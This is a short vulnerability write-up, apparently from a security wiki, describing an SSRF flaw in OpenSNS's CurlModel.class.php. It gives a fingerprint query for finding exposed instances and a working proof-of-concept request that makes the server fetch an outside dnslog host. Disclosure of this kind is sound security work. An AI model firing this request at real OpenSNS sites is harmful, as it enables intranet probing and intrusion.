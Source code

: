 # OpenSNS CurlModel.class.php SSRF vulnerability

## Vulnerability Description

There is an SSRF vulnerability in the curl method in the OpenSNS CurlModel.class.php file. The vulnerability attacker can detect intranet information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSNS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1167011145"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235733223.png)

The vulnerable file is `Application/Admin/Model/CurlModel.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634372194099-77c5fe31-6860-4f22-b7d8-4c7d7c5e1ecb.png)

Construct POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=https://92aq2z.dnslog.cn
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634372283531-85b34ccd-7259-4164-bb67-1806e32fa6ec.png)